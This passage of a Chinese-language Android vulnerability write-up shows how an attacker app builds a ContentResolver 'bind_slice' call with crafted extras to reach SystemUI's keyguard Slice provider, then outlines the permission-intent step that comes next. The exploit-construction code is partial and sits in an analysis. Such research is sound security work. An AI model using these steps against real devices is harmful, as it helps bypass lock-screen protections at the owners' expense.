 ```java
        SliceAction action = SliceAction.createDeepl ink(mPendingIntent, icon,
                ListBuilder.ICON_IMAGE, mLastText);
        RowBuilder primaryActionRow = new RowBuilder(Uri.parse(KEYGUARD_ACTION_URI))
                .setPrimaryAction(action);
        builder.addRow(primaryActionRow);
    }
```

![Alt text](https://shs3.b.qianxin.com/butian_public/f259940ea1b57aabb051821a4ce0c0c6bde5537904b24.jpg)

### 利用过程

首先要构造`call`函数的参数，`uri`的路径是派生类的路径：`content://com.android.systemui.keyguard`，`method`已经知道，`arg`可以不用设置，关键是`extras`怎么构造。可以参考`cts/tests/tests/slice/src/android/slice/cts/SliceProviderTest.java`里的例子。

```java
    private Slice doQuery(Uri actionUri) {
        Bundle extras = new Bundle();
        extras.putParcelable("slice_uri", actionUri);
        extras.putParcelableArrayList("supported_specs", Lists.newArrayList(
                    new SliceSpec("androidx.slice.LIST", 1),
                    new SliceSpec("androidx.app.slice.BASIC", 1),
                    new SliceSpec("androidx.slice.BASIC", 1),
                    new SliceSpec("androidx.app.slice.LIST", 1)
            ));
        [...]
```

最后，构造出来为下所示：

```java

final static String uriKeyguardSlices = "content://com.android.systemui.keyguard";

  Bundle responseBundle = getContentResolver().call(Uri.parse(uriKeyguardSlices), "bind_slice", null, prepareReqBundle());

private Bundle prepareReqBundle() {
        Bundle extras = new Bundle();
        extras.putParcelable("slice_uri", Uri.parse(uriKeyguardSlices));
        ArrayList< Parcelable> lists = new ArrayList<Parcelable>();
        lists.add(new SliceSpec("androidx.slice.LIST", 1));
        lists.add(new SliceSpec("androidx.app.slice.BASIC", 1));
        lists.add(new SliceSpec("androidx.slice.BASIC", 1));
        lists.add(new SliceSpec("androidx.app.slice.LIST", 1));
        extras.putParcelableArrayList("supported_specs", lists);
        return extras;
    }

```

其次，发现直接访问`SystemUI`的`Slice`的需要授权，所以需要再构造一个申请授权的`intent`。在上文触发路径的申请权限流程是：`createPermissionSlice`-&gt;`onCreatePermissionRequest`-&gt;`createPermissionIntent`.
